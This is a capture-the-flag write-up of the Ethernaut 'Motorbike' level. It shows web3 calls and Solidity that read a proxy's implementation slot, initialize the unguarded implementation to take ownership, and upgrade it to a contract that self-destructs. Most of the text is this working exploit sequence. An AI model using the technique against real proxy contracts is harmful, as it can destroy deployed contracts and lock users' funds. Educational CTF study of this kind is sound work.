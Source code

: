 # Motorbike Solution

1. Get the impl address by checking the correct storage slot on the proxy:
```js
await web3.eth.getStorageAt(instance, '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc')
// returns '0x0000000000000000000000009ebb39474c8d4e18387eb610e885332d3d53491f'
```
2. Check if the impl contract is initialized.
```js
await web3.eth.getStorageAt(impl, 0)
// returns '0x0000000000000000000000000000000000000000000000000000000000000000'
// OR using sig "upgrader()" = 0xaf269745
await web3.eth.call({ from: player, to: impl, data: '0xaf269745' })
// returns '0x0000000000000000000000000000000000000000000000000000000000000000'
```
3. As it is not, we can initialize it and take ownership.
```js
// using sig "initialize()" = 0x8129fc1c
await web3.eth.sendTransaction({ from: player, to: impl, data: '0x8129fc1c' });
```
4. Deploy the following contract that self destructs:
```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.15;

contract Explosion {
    function implode() external {
        selfdestruct(payable(msg.sender));
    }
}
```
5. Prepare calldata to upgrade to the self destructing contract, delegate calling `implode()`
```solidity
bytes4 implode = 0x3d8aa9b8 // sig "implode()"
bytes4 upgrade = 0x4f1ef286 // sig "upgradeToAndCall(address,bytes)"
address explosion = 0x0f0ea2d6d12413e05e5a41fda0bd6d945dcc97f1
bytes memory subData = abi.encodeWithSelector(implode)
bytes memory rootData = abi.encodeWithSelector(upgrade, explosion, subData)
// returns 0x4f1ef2860000000000000000000000000f0ea2d6d12413e05e5a41fda0bd6d945dcc97f1000000000000000000000000000000000000000000000000000000000000004000000000000000000000000000000000000000000000000000000000000000043d8aa9b80000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
```
6. Execute the upgrade transaction:
```js
await web3.eth.sendTransaction({ from: player, to: impl, data: '0x4f1ef2860000000000000000000000000f0ea2d6d12413e05e5a41fda0bd6d945dcc97f1000000000000000000000000000000000000000000000000000000000000004000000000000000000000000000000000000000000000000000000000000000043d8aa9b80000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000' })
```

🎉 Tadaa! Job done.
